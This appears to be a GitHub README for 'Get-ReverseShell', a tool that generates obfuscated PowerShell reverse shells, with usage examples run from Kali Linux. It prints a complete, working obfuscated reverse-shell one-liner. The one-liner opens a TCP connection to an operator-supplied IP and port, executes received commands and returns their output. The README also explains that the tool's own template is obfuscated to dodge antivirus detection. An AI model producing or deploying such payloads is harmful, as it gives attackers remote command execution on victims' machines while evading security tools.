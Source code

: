 # Obfuscated PowerShell Reverse Shells

Get-ReverseShell is a project that stems from the [Invoke-PSObfuscation](https://github.com/gh0x0st/invoke-psobfuscation) framework, with the sole purpose of producing obfuscated reverse shells for PowerShell. 

___IMPORTANT___

This tool has been built with the intent to be primarily supported on Kali Linux, however, you are still able to run this script on Windows just the same. While I encourage you to keep this script on Kali, I have added some safeguards for those that will store this on a system with antivirus installed, such as Windows with Defender enabled. 

This is due to the inclusion of a function called `Get-Template` that produces the reverse shell template that is passed through the generator functions. The original payload is prone to being detected across the board due to it's wide-spread popularity. 

To help prevent this function from flagging the entire script after being written to disk, the payload within `Get-Template` has been relatively obfuscated.

## Requirements

This script was built and tested on the following version Kali Linux and PowerShell. The obfuscated reverse shells are compatible on systems that support PowerShell newer than version 2.0

```shell
┌──(kali㉿kali)-[/home/kali]
└─PS> $PSVersionTable

Name                           Value
----                           -----
PSVersion                      7.2.4
PSEdition                      Core
GitCommitId                    7.2.4
OS                             Linux 5.18.0-kali5-amd64 #1 SMP PREEMPT_DYNAMIC Debian 5.18.5-1kali6 (2022-07-07)
Platform                       Unix
PSCompatibleVersions           {1.0, 2.0, 3.0, 4.0…}
PSRemotingProtocolVersion      2.3
SerializationVersion           1.1.0.1
WSManStackVersion              3.0
```

## Usage Examples

To load the script on Kali Linux, open a terminal then run `pwsh`. With PowerShell now running in your terminal, you can load the script in your current session by __dot sourcing__ the script.

```shell
┌──(kali㉿kali)-[~]
└─$ pwsh
PowerShell 7.2.4
Copyright (c) Microsoft Corporation.

https://aka.ms/powershell
Type 'help' to get help.

┌──(kali㉿kali)-[/home/kali]
└─PS> . ./Get-ReverseShell.ps1
```

If you run the script and supply only an IP address and port, then every supported script component will be obfuscated and output to the console.

```shell
┌──(kali㉿kali)-[/home/kali]
└─PS> Get-ReverseShell -Ip 127.0.0.1 -Port 443

     >> Layer 0 Reverse Shell
     >> https://github.com/gh0x0st

$9bu74RLxidUDk = & (("4us0Qpzt5b9navewiNEjqfxmZgRrSBKFW3JMVX2I8LDY6HACyTc7dOhkP-U1loG")[17,14,15,57,53,9,19,14,50,7] -join '') ([string]::join('', ( (83,121,115,116,101,109,46,78,101,116,46,83,111,99,107,101,116,115,46,84,67,80,67,108,105,101,110,116) |%{;$_}|%{ ( [char][int] $_)})) |%{;$_}| % {$_})(([string]::join('', ( (49,50,55,46,48,46,48,46,49) |%{;$_}|%{ ( [char][int] $_)})) |%{;$_}| % {$_}),$(0+0-0-443+443+443));$kxjaLK6qrECXjf2 = ((& (("tFqYIQ1HnjmkK9PdoUbMzlCR27uv4yEpNxr85L-XSfWJhDiZTac3BGg6wesVOA0")[46,8,27,16,11,57,38,57,33,31,34,57,58,58,46,16,8] -join '')([string]::join('', ( (36,57,98,117,55,52,82,76,120,105,100,85,68,107,46,71,101,116,83,116,114,101,97,109,40,41) |%{ ( [char][int] $_)})) | % {$_})));[byte[]]$9uR0tN24DBEA9YsVNLOnIrx2s = 0..$($(0+60000)+$(0+0-0+5000)+(500)+($(35)))|%{;$_}|%{0};while(($5aH = $kxjaLK6qrECXjf2.Read($9uR0tN24DBEA9YsVNLOnIrx2s, 0, $9uR0tN24DBEA9YsVNLOnIrx2s.Length)) -ne 0){;$jIguPvaSK1ZilFymBVhTA = (& (("4us0Qpzt5b9navewiNEjqfxmZgRrSBKFW3JMVX2I8LDY6HACyTc7dOhkP-U1loG")[17,14,15,57,53,9,19,14,50,7] -join '') -TypeName ([string]::join('', ( (83,121,115,116,101,109,46,84,101,120,116,46,65,83,67,73,73,69,110,99,111,100,105,110,103) |%{;$_}|%{ ( [char][int] $_)})) |%{;$_}| % {$_})).GetString($9uR0tN24DBEA9YsVNLOnIrx2s,0, $5aH);$U = (& (("PljCFMKRq1-LpYeVWtNnku2Q8iJT0OzHg7Uxo5svyXh9GcAEawIb643dmfBSZrD")[50,19,39,36,20,14,10,47,35,12,61,14,38,38,25,36,19] -join '') $jIguPvaSK1ZilFymBVhTA 2>&1 |%{;$_}| & (("MTSO1XIqriP2ox4bGsuZtk0wEHhj9f8QnVdaBgcyLFN6Cz3DYWR-l5vUAmKJpe7")[3,18,20,51,2,20,8,9,32,37] -join '') );$GemSDxKaU = $U + $([char](30+87-30)+[char](97*72/97)+[char](106*65/106)+[char](21*84/21)+[char](0+32-0)+[char](88*87/88)+[char](0+72-0)+[char](0+69-0)+[char](0+82-0)+[char](51+69-51)+[char](80+62-80)+[char](42*32/42)) -replace $('W'+'H'+'E'+'R'+'E'),(& ([string]::join('', ( (71,101,116,45,76,111,99,97,116,105,111,110) |%{;$_}|%{ ( [char][int] $_)})) |%{;$_}| % {$_})).Path -replace $([char](113*87/113)+[char](0+72-0)+[char](104*65/104)+[char](29+84-29)),([string]::join('', ( (80,83) |%{;$_}|%{ ( [char][int] $_)})) |%{;$_}| % {$_});$xz1V87nrk4C9g2omRSHwHrTU1 = ([text.encoding]::ASCII).GetBytes($GemSDxKaU);$kxjaLK6qrECXjf2.Write($xz1V87nrk4C9g2omRSHwHrTU1,0,$xz1V87nrk4C9g2omRSHwHrTU1.Length);$($kxjaLK6qrECXjf2.Flush())};$((& (("KDU-6exQHZgPzTYpVCvijL79Nf4du5ns2F3oym8WSrbGOE10tIqcAJlBwRMhXak")[19,30,18,35,62,5,3,5,6,15,41,5,31,31,19,35,30] -join '')([string]::join('', ( (36,57,98,117,55,52,82,76,120,105,100,85,68,107,46,67,108,111,115,101,40,41) |%{ ( [char][int] $_)})) | % {$_})))
```

In lieu of having the output sent to the console, we can also have the output saved to a file instead.

```shell
┌──(kali㉿kali)-[/home/kali]
└─PS> Get-ReverseShell -Ip 127.0.0.1 -Port 443 -OutFile obfuscated.ps1

     >> Layer 0 Reverse Shell
     >> https://github.com/gh0x0st

[*] Writing payload to obfuscated.ps1
```
